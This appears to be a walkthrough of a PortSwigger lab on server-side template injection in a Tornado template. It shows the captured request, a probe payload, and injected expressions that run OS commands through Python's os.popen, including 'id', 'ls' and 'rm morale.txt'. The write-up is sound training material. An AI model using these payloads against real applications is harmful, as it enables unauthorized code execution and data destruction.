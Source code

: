 ```yaml
---
title: Basic server-side template injection (code context)
description: PortSwigger SSTI Lab
---
```

https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context
This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

## Discovery
Login as `wiener:peter`, the user has a "Preferred name" functionality:
![](../../../../public/images/PS_SSTI_20250608%20_205907.png)
Preferred name request
```http
POST /my-account/change-blog-post-author-display HTTP/2
Host: 0a0000c403f0e65f807b35b0006000d7.web-security-academy.net
Cookie: session=aYOwzuuc8FuNh3OpqpBIgoKjh4b7sOhO
Content-Length: 76
Cache-Control: max-age=0
Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Origin: https://0a0000c403f0e65f807b35b0006000d7.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0000c403f0e65f807b35b0006000d7.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

blog-post-author-display=user.nickname&csrf=nCLI3F1butqYQwZOhvcoozamDDGpWSNT
```

Testing SSTI
```xml
blog-post-author-display={{7*7}}&csrf=nCLI3F1butqYQwZOhvcoozamDDGpWSNT
```

This sets the name that will be shown for the author when they post a comment.  The comment's author name shows the result of `7*7` which indicates that the `blog-post-author-display` parameter is vulnerable to SSTI.
![](../../../../public/images/PS_SSTI_20250608%20_210218.png)

Testing with python builtins
```xml
blog-post-author-display={{ [].__class__.__base__.__subclasses__() }}
&csrf=nCLI3F1butqYQwZOhvcoozamDDGpWSNT
```

That works:
![](../../../../public/images/PS_SSTI_20250608%20_210657.png)
```xml
blog-post-author-display={{ __import__('os').popen('id').read() }}
&csrf=nCLI3F1butqYQwZOhvcoozamDDGpWSNT
```
![](../../../../public/images/PS_SSTI_20250608%20_211021.png)
## Exploit

Listing the files

```python
{{ __import__('os').popen('ls').read() }}
```

![](../../../../public/images/PS_SSTI_20250608%20_211213@2x.png)

Removing the files
```python
{{ __import__('os').popen('rm morale.txt').read() }}
```

![](../../../../public/images/PS_SSTI_20250608%20_211333@2x.png)

List the directory and see that `morale.txt`  has been deleted:
![](../../../../public/images/PS_SSTI_20250608%20_211421@2x.png)